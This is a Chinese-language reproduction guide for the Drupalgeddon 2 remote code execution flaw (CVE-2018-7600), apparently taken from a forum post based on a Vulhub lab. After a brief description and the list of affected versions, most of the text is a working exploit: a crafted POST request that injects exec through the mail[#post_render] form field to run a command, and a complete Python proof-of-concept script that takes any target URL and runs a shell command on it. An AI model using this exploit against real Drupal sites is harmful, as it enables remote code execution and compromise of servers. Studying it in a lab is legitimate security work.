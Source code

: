 # （CVE-2018-7600）Drupal Drupalgeddon 2 远程代码执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2893](https://www.zhihuifly.com/t/topic/2893)

# （CVE-2018-7600）Drupal Drupalgeddon 2 远程代码执行漏洞

## 一、漏洞简介

Drupal是Drupal社区所维护的一套使用PHP语言开发的免费，开源的内容管理系统。版本受到影响：Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

## 二、漏洞影响

Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

## 三、复现过程

### 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

```
docker-compose up -d 
```

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7600](https://github.com/ianxtianxt/CVE-2018-7600)，我们向安装完成的drupal发送如下数据包：

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103 `form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id` 
```

成功执行代码，这个代码最终执行了id命令：

![image](img/373a1ad3552bf62fe4f1ac5c8fac9a71.png)

### **exploit.py**

```
#!/usr/bin/env python3
import sys
import requests

print (’################################################################’)

print (’# Proof-Of-Concept for CVE-2018-7600’)

print (’# by Vitalii Rudnykh’)

print (’# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders’)

print (’# [https://github.com/a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600)’)

print (’################################################################’)

print (‘Provided only for educational or information purposes\n’)

target = input('Enter target url (example: [https://domain.ltd/](https://domain.ltd/)): ')

# Add proxy support (eg. BURP to analyze HTTP(s) traffic)

# set verify = False if your proxy certificate is self signed

# remember to set proxies both for http and https

# example:

# proxies = {‘http’: ‘[http://127.0.0.1:8080](http://127.0.0.1:8080)’, ‘https’: ‘[http://127.0.0.1:8080](http://127.0.0.1:8080)’}

# verify = False

proxies = {}

verify = True

url = target + ‘user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax’

payload = {‘form_id’: ‘user_register_form’, ‘_drupal_ajax’: ‘1’, ‘mail[#post_render][]’: ‘exec’, ‘mail[#type]’: ‘markup’, ‘mail[#markup]’: ‘echo “;-)” | tee hello.txt’} `r = requests.post(url, proxies=proxies, data=payload, verify=verify)

check = requests.get(target + ‘hello.txt’, proxies=proxies, verify=verify)

if check.status_code != 200:

sys.exit(“Not exploitable”)

print (’\nCheck: '+target+‘hello.txt’)` 
```

## 参考链接

> https://vulhub.org/#/environments/drupal/CVE-2018-7600/
